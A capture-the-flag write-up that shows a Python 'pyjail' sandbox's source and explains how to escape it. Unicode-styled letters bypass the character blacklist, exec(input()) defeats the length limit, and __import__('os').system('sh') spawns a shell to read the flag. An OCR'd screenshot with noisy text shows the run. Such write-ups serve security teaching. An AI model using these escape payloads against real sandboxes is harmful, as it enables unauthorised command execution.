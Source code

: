 # yet another pyjail
> CTFs without jails are boooring, innit?

## About the Challenge
This is a classic PyJail chall where we need to escape from the sandbox to obtain the flag. We got a python file that looks like this

```python
import ast, code, sys
blacklist = "abcdefghijklmnopqrstuvwxyzABCDEFHJKLMNOPQRSTUVWXYZ1234567890" 

entry=r"""
Welcome, enjoy your stay...

     \                  ###########                  /
      \                  #########                  /
       \                                           /
        \                                         /
         \                                       /
          \                                     /
           \                                   /
            \_________________________________/
            |                                 |
            |                                 |
            |                                 |
            |            _________            |
            |           |         |           |
            |           |   ___   |           |
            |           I  |___|  |           |
            |           |         |           |
            |           |         |           |
            |           |        _|           |
            |           |       |#|           |  ;,
    -- ___  |           |         |           |   ;'
    H*/   ` |           |         |      _____|    .,`
    */     )|           I         |     \_____\     ;'
    /___.,';|           |         |     \\     \     ."`
    |     ; |___________|_________|______\\     \      ;:
    | ._,'  /                             \\     \      .
    |,'    /                               \\     \
    ||    /                                 \\_____\
    ||   /                                   \_____|
    ||  /              ___________                \
    || /              / =====o    |                \
    ||/              /  |   /-\   |                 \
    //              /   |         |                  \
   //              /    |   ____  |______             \
  //              /    (O) |    | |      \             \
 //              /         |____| |  0    \             \
//              /          o----  |________\             \
/              /                  |     |  |              \
              /                   |        |               \
             /                    |        |             
            /                     |        |

"""

bye = """
Goodbye.


        _.---,._,'
       /' _.--.<
         /'     `'
       /' _.---._____
       \.'   ___, .-'`
           /'    \\             
         /'       `-.          
        |                       
        |                   .-'~~~`-.
        |                 .'         `.
        |                 |  R  I  P  |
        |                 |           |
        |                 |           |
         \               \\|           |//
   ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^"""

def console_exit():
    print(bye)
    raise SystemExit

def read_input(args):
    inp = input('>>> ') 
    if len(inp) > 20:
        print("input too long")
        exit()
    if "Attribute" in ast.dump(ast.parse(inp)):
        print("no attribute access allowed")
        exit()
    if "Subscript" in ast.dump(ast.parse(inp)):
        print("no indexing allowed")
        exit()
    for i in blacklist:
        if i in inp:
            print("input contained blaclisted characters")
            exit()
    return inp

while True:
    print(entry)
    try:
        code.interact(banner="", exitmsg=None, local={"exit": console_exit}, readfunc=read_input)
    except SystemExit:
        break
    print(bye)
    break
```

There are some restrictions like we can't input a-zA-Z0-9 and the `len(input) > 20` 

## How to Solve?
We still can bypass the `blacklist` by using a gothic font or cursive font and then run this code to bypass the length restriction

```python
𝔢𝔵𝔢𝔠(𝔦𝔫𝔭𝔲𝔱())
```

And then use `__import__` to import `os` pkg to spawn a shell

```python
__import__("os").system("sh")
```

And to read the flag, run this shell command

```sh
cat flag.txt
```


[Image extracted text: >>>
erec( input())
import__("os") system( "sh")
ls
Dockerfile
flag
txt
pyjail_ez
py
runit
cat flag.txt
durk{ln_1966_4ndy_dufr35n3_35c4p3d_frOm_ShuwShunk_prlSOn}cOde]


```
d4rk{1n_1996_4ndy_dufr35n3_35c4p3d_fr0m_5h4w5h4nk_pr150n}c0de
```